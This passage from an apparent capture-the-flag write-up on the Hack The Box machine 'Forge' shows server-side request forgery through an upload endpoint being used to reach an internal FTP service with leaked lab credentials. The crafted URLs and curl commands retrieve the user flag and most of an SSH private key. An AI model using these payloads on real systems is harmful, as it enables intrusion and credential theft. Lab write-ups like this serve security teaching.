 Another interesting discovery. We got information that `/upload` endpoint was not securely configured and it was possible to pass any URL with `?u=` parameter. We also got credentials to ftp service `user:heightofsecurity123!`.

So we tried to connect to ftp server with CLI, but it was unsuccessful. 

Another way of connecting to ftp service is via URL. We used hints found earlier, crafted link and entered it in `Upload from url`.

`http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB`

Success! We again used `curl` to view the results. 

`curl http://forge.htb/uploads/pXIiTW5bTo8eTzobeRDZ`

```
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Oct 23 15:51 user.txt
```

There was a list of files with user flag. So we tried to view it. We crafted another URL.

`http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/user.txt`

`curl http://forge.htb/uploads/CBmRE8MMsKJSQ9617yKf`

```
475da2567a83228c12e8333a2df36bcc
```

First flag successfuly found. We wanted to find a root flag as well.

We decided to look for some other files via ftp. At first we were looking for ssh keys, because we found that the port 22/tcp was open.
We crafted URL shown below and put it into upload page.
`http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa`

`curl http://forge.htb/uploads/jExL9yzwhJKj3jFP72p5`

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
```
